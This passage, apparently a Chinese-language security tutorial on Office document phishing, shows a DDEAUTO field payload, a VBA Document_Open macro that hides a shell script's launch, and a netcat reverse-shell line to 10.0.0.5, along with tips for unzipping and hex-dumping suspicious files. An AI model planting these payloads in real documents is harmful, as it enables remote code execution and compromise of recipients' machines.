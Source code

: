 替换`= \* MERGEFORMAT`为有效负载并保存文档：

DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" 



我们如何检查 .docx（与 .xlsx 相同）文件？由于它们本质上是 .zip 存档，因此我们可以将 .docx 文件重命名为 .zip，然后简单地解压缩存档以进行进一步检查。

我们感兴趣的文件是`document.xml`（为简洁起见，在下面进行了修剪）。请注意第 4 行如何允许我们以纯文本形式检查 DDE 负载：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:cx="http://schemas.microsoft.com/office/drawing/2014/chartex" xmlns:cx1="http://schemas.microsoft.com/office/drawing/2015/9/8/chartex" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:w15="http://schemas.microsoft.com/office/word/2012/wordml" xmlns:w16se="http://schemas.microsoft.com/office/word/2015/wordml/symex" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 w15 w16se wp14">
<...snip...>
      <w:instrText>DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"</w:instrText>
<...snip...>
</w:document>
```

## T1137：网络钓鱼 - Office 宏

使用 VBA 宏执行代码

```
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```

```
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```

这个比较常见 不多说了

转为zip后缀看看



如果您收到可疑的 Office 文档并且没有任何恶意软件分析工具，希望您至少可以使用 WinZip 或 7Zip 和字符串实用程序或任何类型的十六进制编辑器。

由于 Office 文件本质上是 ZIP 存档（PK 魔法字节）：

root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
